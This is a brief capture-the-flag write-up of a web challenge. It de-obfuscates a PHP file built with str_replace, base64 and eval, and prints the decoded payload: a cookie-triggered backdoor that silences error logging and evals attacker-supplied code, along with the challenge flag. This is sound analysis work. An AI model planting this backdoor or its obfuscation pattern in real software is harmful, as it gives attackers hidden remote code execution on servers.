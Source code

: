 # Web Challenge : 50 Point
- The Challenge is a zip file Which Contain a php code 
``` 
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
``` 
first the variable `$iuq` containe a php build in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be ```JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9```
decode it with base64 then the output will be 
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
